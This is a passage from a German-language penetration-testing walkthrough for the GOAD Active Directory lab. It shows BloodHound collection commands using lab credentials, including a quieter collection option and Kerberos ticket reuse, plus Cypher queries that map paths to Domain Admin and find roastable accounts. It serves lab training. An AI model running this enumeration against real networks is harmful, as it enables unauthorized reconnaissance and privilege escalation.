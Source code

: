 ### 1.2 Datensammlung mit kompromittierten Credentials

#### Vollständige Enumeration aller Domänen
```bash
# North Domain (WINTERFELL) - Mit jon.snow Credentials
bloodhound-python -d north.sevenkingdoms.local -u jon.snow -p iknownothing -ns 192.168.20.11 -c All --zip

# Sevenkingdoms Domain (KINGSLANDING)
bloodhound-python -d sevenkingdoms.local -u 'guest' -p '' -ns 192.168.20.10 -c DCOnly,Group,LocalAdmin,RDP,DCOM,Container --zip

# Essos Domain (MEEREEN) - Falls Credentials verfügbar
bloodhound-python -d essos.local -u 'guest' -p '' -ns 192.168.20.12 -c DCOnly,Group,LocalAdmin --zip
```

#### Alternative Collection Methods
```bash
# Nur Group/User-Informationen (weniger auffällig)
bloodhound-python -d north.sevenkingdoms.local -u jon.snow -p iknownothing -ns 192.168.20.11 -c Group,LocalAdmin,Session --zip

# Mit Kerberos-Authentifizierung (falls Tickets vorhanden)
export KRB5CCNAME=/tmp/jon.snow.ccache
bloodhound-python -d north.sevenkingdoms.local -k -ns 192.168.20.11 -c All --zip
```

### 1.3 BloodHound Analyse & Attack Paths

#### Wichtige Cypher-Queries für GOAD
```cypher
// Alle Domain Admins finden
MATCH (u:User)-[:MemberOf*1..]->(g:Group {name: "DOMAIN ADMINS@NORTH.SEVENKINGDOMS.LOCAL"}) RETURN u.name

// Kürzester Weg zu Domain Admin von jon.snow
MATCH p=shortestPath((u:User {name:"JON.SNOW@NORTH.SEVENKINGDOMS.LOCAL"})-[*1..]->(g:Group {name:"DOMAIN ADMINS@NORTH.SEVENKINGDOMS.LOCAL"})) RETURN p

// Service Accounts mit SPNs
MATCH (u:User) WHERE u.hasspn=TRUE RETURN u.name, u.serviceprincipalnames

// Unconstrained Delegation
MATCH (c:Computer) WHERE c.unconstraineddelegation=TRUE RETURN c.name

// AS-REP Roastable Users
MATCH (u:User) WHERE u.dontreqpreauth=TRUE RETURN u.name

// Cross-Domain Trust Relationships
MATCH (d1:Domain)-[r:TrustedBy]->(d2:Domain) RETURN d1.name, r, d2.name
```

---
